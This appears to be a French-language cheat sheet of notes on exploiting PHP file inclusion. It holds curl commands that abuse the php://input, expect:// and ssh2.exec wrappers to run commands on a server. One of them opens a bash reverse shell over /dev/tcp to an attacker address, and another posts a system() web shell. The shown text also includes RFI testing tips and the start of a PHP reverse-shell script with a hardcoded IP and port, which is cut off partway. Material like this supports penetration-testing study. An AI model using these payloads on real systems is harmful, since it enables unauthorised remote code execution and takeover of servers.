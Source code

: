 ### Input Wrapper (POST Request)

```shell-session
php://input&cmd=id
```

```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

### Expect Wrapper

```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```


### SSH2 Wrapper

> [!TIP]
> Utile dans le cas ou un service ssh tourne en interne et des identifiants valides ont été récupérés pour un utilisateur.

```sh
curl -s 'http:///<SERVER_IP>:<PORT>/page.php?<parameter>=ssh2.exec://user:password@127.0.0.1/bash+-c+"bash+-i+>%26+/dev/tcp/<ip_attacker>/<port>+0>%261"%3b' -b "PHPSESSID=ptdmbs8go75rn235rhjn17u0ja"
```




---

# Remote File Inclusion #RFI

Tester d'inclure une url locale dans le paramètre (éviter d'inclure la page vulnérable pour éviter une boucle qui pourrait DOS)

```
http://127.0.0.1:80/autre_fichier.php
```

Tester d'inclure une url distante dans le paramètre -> https://app.interactsh.com/
ou serveur http monté à la volée

## RCE

> [!TIP]
> Tester plusieurs protocoles au cas ou certains ports seraient filtrés

### Reverse Shell

```BASH
echo '<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.7';
$port = 9001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
```